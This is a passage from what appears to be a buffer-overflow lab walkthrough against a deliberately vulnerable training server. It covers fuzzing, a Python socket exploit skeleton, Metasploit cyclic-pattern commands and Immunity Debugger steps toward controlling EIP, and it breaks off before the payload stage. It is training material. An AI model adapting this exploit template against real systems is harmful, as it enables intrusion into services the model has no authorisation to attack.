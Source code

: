 Run the fuzzer.py script using python: `python3 fuzzer.py`

The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

### Crash Replication & Controlling EIP

Create another file on your Kali box called exploit.py with the following contents:

```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the `-l` value to this):

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

If you are using the AttackBox, use the following path to `pattern_create.rb` instead (also ensure to change the `-l` value):

`/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 600`

Copy the output and place it into the payload variable of the exploit.py script.

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

On Kali, run the modified exploit.py script: `python3 exploit.py`

The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:
